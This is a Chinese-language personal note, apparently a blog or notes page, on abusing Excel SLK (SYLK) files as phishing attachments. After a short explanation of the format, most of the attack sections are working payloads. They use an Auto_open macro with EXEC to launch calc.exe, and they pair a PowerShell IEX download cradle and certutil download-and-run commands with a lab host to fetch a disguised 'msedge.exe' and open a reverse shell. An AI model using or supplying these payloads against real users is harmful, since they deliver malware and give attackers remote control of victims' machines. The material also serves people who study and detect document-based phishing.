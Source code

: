 ```yaml
---
date: 2025-10-09
category:
  - 网络安全
  - 网络钓鱼
tags:
  - 钓鱼附件
  - Office
  - SLK
excerpt: SLK 文件大多属于 Microsoft 的 Excel。 SLK 文件是符号链接文件，它是由 Microsoft 开发并主要由 Excel 使用的格式。该文件格式仅使用可显示的 ANSI 字符来存储数据，并允许其他应用程序轻松处理其内容。
---
```


# SLK

## 概述

> [如何在没有 Excel 的情况下打开 SLK 文件 (filext.com)](https://filext.com/zh/wenjian-kuozhan-ming/SLK)
>
> ---
>
> [安天引擎助力全线产品精准检测SLK格式威胁 (antiy.com)](https://www.antiy.com/response/20200701.html)

SLK 文件大多属于 Microsoft 的 Excel。 SLK 文件是符号链接文件，它是由 Microsoft 开发并主要由 Excel 使用的格式。该文件格式仅使用可显示的 ANSI 字符来存储数据，并允许其他应用程序轻松处理其内容。

在2007年XLSX引入之前且XLS文件是私有文件格式的时候，SLK是XLS的开放格式替代品，对于最终用户来说，SLK文件看起来像一个Excel文档。

- 主要用途: SLK文件格式主要用于程序之间（如微软 Excel 和 Lotus 1-2-3）传输数据。由于这些文件仅使用可显示的 ANSI 字符，因此程序和用户都很容易解释它们，并且可以使用简单的文本编辑器（例如记事本）查看或修改。
- 预览与编辑软件: 虽然该格式主要由 Microsoft Excel 使用，但其他程序（例如 OpenOffice、LibreOffice 和 Gnumeric）也支持该文件格式的变体。
- 文件结构：SLK 文件中的数据以纯文本形式存储，并以分号分隔的值进行组织。要在单元格中包含文字分号，可以使用前面的分号对其进行转义，这将导致字符被视为单元格的一部分，而不是文件结构的一部分。

例如:

```mathematica
ID;P
C;X1;Y1;K"Header1"
C;X2;Y1;K"Header2"
C;X1;Y2;K"Data1"
C;X2;Y2;K"Data2"
E
```

- `ID;P` 是文件的标识符和参数
- `C;X1;Y1;K"Header1"` 表示第1列第1行的单元格内容是"Header1"
  - `C` - `Cell` 表示这是一行单元格数据
  - `X1` 表示单元格所在的列, 第 1 列
  - `Y1` 表示单元格所在的行, 第 1 行
  - `K"Header1"`：表示单元格的内容，`K` 是 "Konstant"（常量）的缩写，`"Header1"` 是该单元格的实际内容，即文字 "Header1"
- `C;X2;Y1;K"Header2"` 表示第2列第1行的单元格内容是"Header2"
- `C;X1;Y2;K"Data1"` 表示第1列第2行的单元格内容是"Data1"
- `C;X2;Y2;K"Data2"` 表示第2列第2行的单元格内容是"Data2"
- `E` 表示文件结束

---

## 调起计算器

```mathematica
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("calc.exe")
C;X1;Y102;K0;EHALT()
E
```

- `NN;NAuto_open;ER101C1;KOut Flank;F`
  - **NN**：名称定义行，定义一个名称及其范围
  - **N**：后面的 `Auto_open` 表示名称。此处定义了一个名称 `Auto_open`
  - **ER101C1**：范围定义，表示范围从 `R101C1` 开始，即第101行第1列。前面的 `E` 可能表示扩展的范围定义
  - **KOut Flank**：为名称 `Auto_open` 赋值，值为 `Out Flank`
  - **F**：标志，可能用于特定标识或格式设置
- `C;X1;Y101;K0;EEXEC("calc.exe")`
  - **K0**：表示单元格的内容，这里是数值 `0`
  - **EEXEC("calc.exe")**：执行命令 `EXEC("calc.exe")`，表示在读取和执行此SLK文件时将运行 `calc.exe`，即打开计算器程序
-  `C;X1;Y102;K0;EHALT()`
  - **K0**：表示单元格的内容，这里是数值 `0`。
  - **EHALT()**：执行命令 `HALT()`，表示停止或结束操作。这通常用于结束脚本或宏的执行。

![image-20240708153941228](http://cdn.ayusummer233.top/DailyNotes/202407081539970.png)

---

## 反弹Shell

> [安天引擎助力全线产品精准检测SLK格式威胁 (antiy.com)](https://www.antiy.com/response/20200701.html)

`http://100.1.1.131:8000/powershell_curl_reverse_shell.txt`: 

```powershell
curl http://100.1.1.131:8000/download/msedge.exe -o msedge.exe;./msedge.exe
```

`slk_reverse_shell.slk`:

```mathematica
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("powershell.exe -nop -c IEX((new-object Net.WebClient).DownloadString('http://100.1.1.131:8000/download/powershell_curl_reverse_shell.txt'))")
C;X1;Y102;K0;EHALT()
E
```

> PS: 无法成功执行此命令, 原因未知
>
> PS: 命令替换成 `powershell.exe -nop -c IEX('calc.exe')` 是可以正常弹出计算器的

---

`shell.cmd`

```cmd
certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe a.exe && a.exe &&  del a.exe && certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe delete
```

`slk_reverse_shell_shell_cmd_file_win1252.slk`

```mathematica
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:/temp/shell.cmd")
C;X1;Y102;K0;EHALT()
E
```

---

`slk_reverse_shell_certutil_win1252.slk`

```mathematica
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("cmd.exe /c certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe a.exe && a.exe &&  del a.exe && certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe delete")
C;X1;Y102;K0;EHALT()
E
```

![image-20240708190618861](http://cdn.ayusummer233.top/DailyNotes/202407081906201.png)

![image-20240708190649128](http://cdn.ayusummer233.top/DailyNotes/202407081906298.png)

---

## 参考材料

> [SLK 文档钓鱼 - Google Search](https://www.google.com/search?q=SLK+文档钓鱼&sca_esv=93393d72ee4371e2&biw=1912&bih=972&sxsrf=ADLYWIKrEcaS-mRNnan1YdFHckVXFvvNkA%3A1720173801763&ei=6cSHZqSlLqmnuvQPua2uoA4&ved=0ahUKEwjkvZ_j0o-HAxWpk44IHbmWC-Q4FBDh1QMIDw&uact=5&oq=SLK+文档钓鱼&gs_lp=Egxnd3Mtd2l6LXNlcnAiEFNMSyDmlofmoaPpkpPpsbwyCBAhGKABGMMESONEUNg7WMxBcAJ4AJABAJgBwAKgAagQqgEFMi01LjK4AQPIAQD4AQGYAgOgArsCwgIKEAAYgAQYsAMYDZgDAIgGAZAGAZIHBTIuMC4xoAfJDQ&sclient=gws-wiz-serp)

- [Macos Office攻防 | YoungRichOG](https://youngrichog.github.io/2021/06/16/Macos-Office攻防/)
- [关于文档钓鱼的学习 | 藏青's BLOG (cangqingzhe.github.io)](https://cangqingzhe.github.io/2020/09/02/关于文档钓鱼的学习/)
- [【技术分享】如何绕过受保护视图发起钓鱼攻击-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/87013)
- [安天引擎助力全线产品精准检测SLK格式威胁 (antiy.com)](https://www.antiy.com/response/20200701.html)

---

